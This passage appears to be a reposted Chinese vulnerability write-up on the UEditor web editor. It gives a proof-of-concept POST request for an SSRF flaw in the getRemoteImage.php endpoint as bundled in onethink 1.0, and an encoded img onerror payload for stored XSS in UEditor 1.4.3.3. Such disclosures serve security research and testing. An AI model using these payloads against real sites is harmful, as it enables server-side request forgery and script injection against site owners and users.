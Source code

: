 ```php
{“state”:“SUCCESS”, list: [{“state”:“\u6293\u53d6\u8fdc\u7a0b\u56fe\u7247\u5931\u8d25”}]}
```

还有一个版本的ssrf漏洞 ，存在于onethink 1.0中的ueditor，测试版本为1.2直接贴Poc：

- 
- 
- 
- 
- 
- 
- 
- 
- 
- 
- 

```php
POST http://target/Public/static/ueditor/php/getRemoteImage.php HTTP/1.1Host: targetUser-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64; rv:55.0) Gecko/20100101Firefox/55.0Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3Accept-Encoding: gzip, deflateContent-Type: application/x-www-form-urlencodedContent-Length: 37Connection: keep-alive
upfile=https://www.google.com/?%23.jpg
```

**0x06 另一处XSS漏洞**

首先安装部署环境：

- 

```php
https://github.com/fex-team/ueditor/releases/tag/v1.4.3.3
```

存储型XSS需要写入后端数据库，这里要把编辑器部署到一个可与数据库交互的环境中。首先我们打开编辑器输入正常的文本。

![图片](https://shs3.b.qianxin.com/butian_public/fe93c15ad8fb38c27a259c2ffded5d387.jpg)

![图片](https://shs3.b.qianxin.com/butian_public/fc7bc7578a70b6f1392305b88cb933885.jpg)

抓包并将&lt;p&gt;标签以及原本的文本删除：

![图片](https://shs3.b.qianxin.com/butian_public/fae230a8b5e760fba36a59c6ab4ce2206.jpg)

插入payload：

- 

```php
%3Cp%3E1111111"><ImG sRc=1 OnErRoR=prompt(1)>%3Cbr%2F%3E%3C%2Fp%3E
```

![图片](https://shs3.b.qianxin.com/butian_public/fb76ebaf752f97b7b8ede4d4d0b0509c8.jpg)

文章授权转载于**"潇湘信安"**公众号